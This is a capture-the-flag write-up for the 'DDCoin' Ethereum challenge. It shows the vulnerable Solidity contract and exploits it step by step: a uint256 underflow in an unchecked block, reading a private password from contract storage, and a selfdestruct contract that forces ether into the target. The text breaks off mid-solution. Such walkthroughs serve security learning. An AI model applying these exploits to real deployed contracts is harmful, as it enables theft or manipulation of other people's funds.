# DDCoin

Proposed difficulty: `Hard`

1 solve - 1000 points

```text
Det er med stor glæde at jeg kan introducere det helt nye inden for DDC. DDCoin! Vores helt egen kryptovaluta understøttet af Ethereum smart contracts. Sid klar med mors kreditkort når vi snart begynder at sælge dem.

I mellemtiden kan du tage et kik på vores demo. Hvis du ikke ejer nogle DDCoin kan du bare ignorere knappen: Webserver: http://ddcoin.hkn

Tilgå kontrakten med: RPC: http://ddcoin.hkn:8546
```

Attachments:

```text
Archive:  misc-ddcoin.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2024-04-18 16:51   misc-ddcoin/
      821  2024-04-18 16:49   misc-ddcoin/genesis.json
     2516  2024-04-18 16:49   misc-ddcoin/DDCoin.sol
      491  2024-04-18 16:50   misc-ddcoin/UTC--2024-04-18T06-11-46.191317015Z--36e4307fbf4687f7bed4d61e30e39f9b34acce50
        3  2024-04-18 16:51   misc-ddcoin/UTC--2024-04-18T06-11-46.191317015Z--36e4307fbf.password.txt
---------                     -------
     3831                     5 files
```

# Table of Contents

- [DDCoin](#ddcoin)
- [Table of Contents](#table-of-contents)
- [Solution](#solution)
  - [Overview](#overview)
  - [Setting up the environment](#setting-up-the-environment)
    - [Setting up MetaMask](#setting-up-metamask)
    - [Setting up Remix IDE](#setting-up-remix-ide)
  - [What is a smart contract?](#what-is-a-smart-contract)
  - [Analyzing the smart contract](#analyzing-the-smart-contract)
  - [Stage 1: Getting a silver coin](#stage-1-getting-a-silver-coin)
  - [Stage 2: Getting a gold coin](#stage-2-getting-a-gold-coin)
  - [Step 3: Getting a diamond coin](#step-3-getting-a-diamond-coin)
  - [Step 4: Getting a DDCoin](#step-4-getting-a-ddcoin)
- [Flag](#flag)


# Solution

## Overview

We get a few files in the challenge:

- genesis.json
  - Holds information about the genesis block in this ethereum chain (not really important)
- DDCoin.sol
  - This file contains the source code for the smart contract that we have to exploit
- UTC--2024-04-18T06-11-46.191317015Z--36e4307fbf4687f7bed4d61e30e39f9b34acce50
  - Encrypted private key. This wallet has some ethereum, which we will need to interact with the smart contract
- UTC--2024-04-18T06-11-46.191317015Z--36e4307fbf.password.txt
  - This file includes the password for the encrypted private key for the wallet. The password is simply `DDC`.

Moreover, there is a webpage at `http://ddcoin.hkn` which looks like this:



Here we get the address of the deployed smart contract that we have to exploit. The button checks if we own a "DDCoin", and gives us the flag if we have one.

Lastly, we have an ethereum RPC endpoint at `http://ddcoin.hkn:8546`. This endpoint allows us to interact with the blockchain.

## Setting up the environment

As I am not very well-versed with ethereum and smart contracts in general, I opted to use a browser solution instead of installing a development environment such as `hardhat` or `brownie`.

I chose to use [Remix IDE](https://remix.ethereum.org/), which is a nice browser based IDE that has everything set up for us to interact with smart contracts.

Before we get to that, we first need a way to interact with the chain. Here we can use a browser extension cryptocurrency wallet such as [MetaMask](https://metamask.io/).

In this setup, MetaMask will handle the communication with the blockchain, while the programming happens from Remix.

### Setting up MetaMask

To add the blockchain to metamask you can go to `Settings > Networks > Add a network > Add a network manually`. And fill it out like this:



Then we can switch to the DDCoin network in the top left dropdown. After we've connected to this chain, we can now import the private key from the challenge attachments. We can do this by going to `Select an account > Add account or hardware wallet > Import account` and choosing `JSON file` as the private key type, here we select the encrypted private key file, and enter the password `DDC`:

Now we can choose that account, and we should be met with a balance of 1000 ETH:



### Setting up Remix IDE

I started by creating a new workspace, and creating a folder for contracts and a folder for scripts. Here we can place the files that we will write later.

Then to connect Remix IDE to MetaMask, you can go to `Deploy & run transactions > Environment` and select the environment called `Injected Provider - MetaMask`. This will prompt MetaMask to authorize a connection to Remix. Afterwards we should have our account in Remix:



We can then create the DDCoin.sol file in our workspace, and copy the contents from the challenge attachments. We should now have a workspace that looks like this:



Now that we're set up, we can try to interact with the smart contract via the Remix GUI. The `Deploy & run transactions` tab in Remix is not very user friendly, and takes some getting used to, but we can add the smart contract into the GUI by doing the following:



This will add a UI element where we can interact with the smart contract interactively:



We can test by pressing `bronze_coins` and verifying that it should be `5000`.

## What is a smart contract?

If you've followed through on the painstaking process of getting everything up and running, the rest should be a pretty fun challenge!

Simply explained, a smart contract is a piece of code that can be deployed to a blockchain. This code usually handles the storage of crypto currencies or NFTs (i know). But it is actually pretty comparable to a class in an object oriented programming language. In the ethereum blockchain these smart contracts are written in a language called [Solidity](https://soliditylang.org/), and all the code is run in an Ethereum Virtual Machine (EVM).

A smart contract can have fields that can store different kinds of data types, and then you can write functions in the contract, which can be used to interact with the smart contract. There are some caveats in how code can be written, as all code in a smart contract is deterministic. This means that everyone can run the code that is triggered when you call a function, and it always gives the same result.

When we interact with an already deployed smart contract, we can only interact with existing functions, and read public attributes.

## Analyzing the smart contract

The challenge provides us with a smart contract written in Solidity. Try to look through the code and see if you can understand what it does:

<details>

<summary><code>DDCoin.sol</code></summary>

```sol
// SPDX-License-Identifier: MIT
pragma solidity = 0.8.20;

contract DDCoin {

  //Donations
  uint256 public donated_bronze_coins = 0;

  //Exchange
  uint256 public exchange_cost = 1000000000000000000;

  //Subcoins
  uint256 public bronze_coins = 5000;
  uint256 public silver_coins = 0;
  uint256 public gold_coins = 0;
  uint256 public diamond_coins = 0;
  uint256 public ddcoin = 0;

  //Secret private password
  bytes32 private password;

  constructor (bytes32 _password){
    password = _password;
  }

  /*Exchanges*/


  function exchange_bronze_to_silver() external {
    require(bronze_coins >= exchange_cost, "You can't afford this exchange");
    bronze_coins = 0;
    silver_coins++;
  }

  function exchange_silver_to_gold() external{
    require(silver_coins >= exchange_cost, "You can't afford this exchange");
    silver_coins = 0;
    gold_coins++;
  }  

  function exchange_diamond_to_ddcoin() external{
    require(diamond_coins >= exchange_cost, "You can't afford this exchange");
    diamond_coins = 0;
    ddcoin++;
  }

  /*Admin privilege ;)*/
  function exchange_silver_to_gold_cheap(bytes32 _password) external{
    require(password == _password, "Wrong password");
    require(silver_coins >= 1, "You can't afford this exchange");
    silver_coins = 0;
    gold_coins += 1;
  }

  function exchange_gold_to_diamond_cheap(bytes32 _password) external{
    require(password == _password, "Wrong password");
    require(gold_coins >= 1, "You can't afford this exchange");

    if((address(this).balance - diamond_coins * 1000000000000000000) > 10000000000000000000){
      gold_coins = 0;
      diamond_coins += 1;
    } else {
      revert("We are too low on funds to exchange your gold for diamonds");
    }
  }

  function withdraw_diamond(bytes32 _password) external{
    unchecked { //Gas saving
      require(password == _password, "Wrong password");
      require(diamond_coins >= 1, "You can't afford this exchange");
      (bool result,) = msg.sender.call{value: 1000000000000000000}("");
      require(result);
      diamond_coins -= 1;
    }
  }

  /*Misc*/

  function donate_bronze(uint256 amount) external returns (string memory){
    unchecked { //Saves gas to allow bigger donations
      require(bronze_coins - amount >= 0, "You can't donate what you don't have");
      bronze_coins -= amount;
      donated_bronze_coins += amount;
      return "Thank you for your contribution!";
    }
  }

  /*
    function mine_bronze() public{
      bronze_coins += 1;
    }
  */

}
```

</details>

The smart contract has 5 different "subcoins". These are `bronze`, `silver`, `gold`, `diamond` and `ddcoin`. To solve this challenge we need to set ddcoint to be at least 1.

The smart contract starts with 5000 bronze, and 0 of all the other subcoins.

There are a few different functions that can exchange one type of coin for another. An example of this is the `exchange_bronze_to_silver()` function:

```sol
function exchange_bronze_to_silver() external {
  require(bronze_coins >= exchange_cost, "You can't afford this exchange");
  bronze_coins = 0;
  silver_coins++;
}
```

This first checks if the amount of `bronze_coins` is greater than or equal to `exchange_cost`. If you have fewer bronze coins than the exchange cost, the invocation will fail, and the transaction will be rolled back, meaning that nothing will happen.

If we pass this check, it will reset the bronze_coins to 0 and increase the amount of silver coins with 1.

To gain a DDCoin we will need to first exchange bronze for silver, silver for gold, gold to diamonds, and lastly diamonds to DDCoin.

## Stage 1: Getting a silver coin

The only function that increase the amount of silver coins is the function called `exchange_bronze_to_silver()`, that we looked at in the last section.

But as it stands we only have 5000 bronze coins, and that is nowhere near the amount that we need which is 1000000000000000000 (exchange_cost).

So we need to find a way to get more bronze coins.

The only function that changes the amount of bronze is the `donate_bronze()` function:

```sol
function donate_bronze(uint256 amount) external returns (string memory){
  unchecked { //Saves gas to allow bigger donations
    require(bronze_coins - amount >= 0, "You can't donate what you don't have");
    bronze_coins -= amount;
    donated_bronze_coins += amount;
    return "Thank you for your contribution!";
  }
}
```

This function allows us to donate bronze, effectively rendering the donated bronze useless. The function takes an amount, and subtracts it from the current amount of bronze, and adds it to the donated_bronze_coins field.

Additionally, this function runs inside an `unchecked { ... }` block. Let's look at what that means:

From the soliditylang [documentation](https://docs.soliditylang.org/en/latest/control-structures.html):

> Prior to Solidity 0.8.0, arithmetic operations would always wrap in case of under- or overflow leading to widespread use of libraries that introduce additional checks.
>
> Since Solidity 0.8.0, all arithmetic operations revert on over- and underflow by default, thus making the use of these libraries unnecessary.
>
> To obtain the previous behavior, an `unchecked` block can be used:

What this means is that an integer overflow/underflow will cause the value to wrap around. As the `bronze_coins` field is a `uint256`, we can actually get an absurd amount of bronze coins if we donate more bronze than we already have.

If we try to donate 5001 bronze coins, the value will wrap around, and we will have an obscene amount of bronze. Let's try it out:



After runnning this function, the value of `bronze_coins` is `115792089237316195423570985008687907853269984665640564039457584007913129639935`, which is now higher than the required amount to get a silver coin.

We can now run the `exchange_bronze_to_silver()` function. After running the function, we have 0 bronze and 1 silver!

## Stage 2: Getting a gold coin

Now, to get a gold coin, there are two ways in the contract. The first is by using the `exchange_silver_to_gold()` function:

```sol
function exchange_silver_to_gold() external{
  require(silver_coins >= exchange_cost, "You can't afford this exchange");
  silver_coins = 0;
  gold_coins++;
}
```

The problem is that we need a very high amount of silver coins, which will take a very long time to get with our method of getting silver.

Another way to get gold is by using the `exchange_silver_to_gold_cheap()` function:

```sol
/*Admin privilege ;)*/
function exchange_silver_to_gold_cheap(bytes32 _password) external{
  require(password == _password, "Wrong password");
  require(silver_coins >= 1, "You can't afford this exchange");
  silver_coins = 0;
  gold_coins += 1;
}
```

This function only requires one silver to get a gold coin. The problem with this function, is that we need to know the password. This password is a private attribute that is set when a contract is created.

Although we cannot directly read the password through the gui, we can get it by using some lower-level RPC commands. We can read a private attribute by reading the storage slots of the address of the smart contract. We can do this by creating a small javascript script in Remix:

```ts
// Address of the deployed DDCoin smart contract
const contract_address = "0xACf77f4c29719CEE1Da51D9c5d9398d442beF6c3";

web3.eth.getStorageAt(contract_address, 7)
    .then(data => console.log("Slot contains: ", data))
```

This can be run by creating a file in the workspace (ex. `get_password.js`), and then pressing the run (play) button in the top left corner of the editor.

In this script we are reading the 7th slot of the smart contract. It is stored in the 7th slot, as it is the 8th attribute defined in the solidity code, and the slots are 0-indexed.

When we execute this script we get a message in the console with the password:

```text
Slot contains:
0x446964596f755468696e6b5468617454686973576173546865466c6167000000
```

We can use this value as-is to interact with the functions in the GUI. We can now call the `exchange_silver_to_gold_cheap()` function with the password as the argument:



The function ran successfully, and we now have a gold coin!

## Step 3: Getting a diamond coin

Now that we have a gold coin, we want to look into getting some diamond coins. To exchange gold to diamonds, there is no `exchange_gold_to_diamonds()` function, but only an `exchange_gold_to_diamonds_cheap()`:

```sol
function exchange_gold_to_diamond_cheap(bytes32 _password) external{
  require(password == _password, "Wrong password");
  require(gold_coins >= 1, "You can't afford this exchange");

  if((address(this).balance - diamond_coins * 1000000000000000000) > 10000000000000000000){
    gold_coins = 0;
    diamond_coins += 1;
  } else {
    revert("We are too low on funds to exchange your gold for diamonds");
  }
}
```

This function requires us to have the same password that we used last time. But now it also checks if a condition is true, if not it will revert, which has the samme effect as when a `require()` call fails. Here is the condition:

`(address(this).balance - diamond_coins * 1000000000000000000) > 10000000000000000000`

As diamond_coins is currently 0 it checks if `address(this).balance > 10000000000000000000`. The balance is in the currency called *wei*. An eth is $10^{18}$ wei. This condition checks if the balance of the smart contract is higher than 10 eth.

At the moment the contract has a balance of 0. To get a diamond coin, we will need to give the smart contract more than 10 eth. There are three main ways of getting eth into a smart contract:

1. Payable Functions: Functions marked as payable can receive Ether directly with a transaction call. These are typically used in contracts where Ether transfers are integral to the functionality, such as buying tokens or paying for services.
   - A function is marked as payable by including the `payable` modifier in the function declaration: \
   `function my_function() payable { ... }`

2. Fallback and Receive Functions: Smart contracts can have a fallback or receive function, which are special functions that do not take any arguments and do not return anything. They are executed on a call to the contract if none of the other functions match the given function identifier, or if no data was supplied at all.
   - The `receive()` function is used specifically for plain eth transfers (i.e., when msg.data is empty).
   - The `fallback()` function is triggered when a function that doesn’t exist in the contract is called or when eth is sent to the contract without a function call.

3. Constructor Payments: During the creation of a smart contract, Ether can be sent to it if the constructor is defined as `payable`. This initial amount can be used to set up the contract state or pre-fund the contract balance.

The problem we face in the DDCoin contract is that there is no `payable` functions in the contract. After digging around, I found out that there is a way to force eth into a smart contract.

We can do this by deploying our own smart contract. This smart contract will have the balance that will go into the DDCoin contract. We can then trigger a `selfdestruct([DDCoin address])` from the smart contract.

From [Solidity by Example](https://solidity-by-example.org/hacks/self-destruct/):

> Contracts can be deleted from the blockchain by calling selfdestruct.
>
> selfdestruct sends all remaining Ether stored in the contract to a designated address.

We can write a self-destructing smart contract to execute this attack:

```sol
// SPDX-License-Identifier: MIT
pragma solidity = 0.8.19;

contract SelfDestructAttack {
  constructor (address payable victim) payable {
    selfdestruct(victim);
  }
}
```

(I had some issues with solidity version 0.8.20 that `DDCoin.sol` used, but got it to work with 0.8.19.)

This smart contract is very simple and only has a constructor. This constructor is payable and takes a single address as an argument. It then `selfdestructs`, which sends all the money to the victim. We can now deploy this contract to force ether into the `DDCoin` contract:

We can deploy a contract from Remix by going into the `Deploy & run transactions` tab, and filling it out like this:

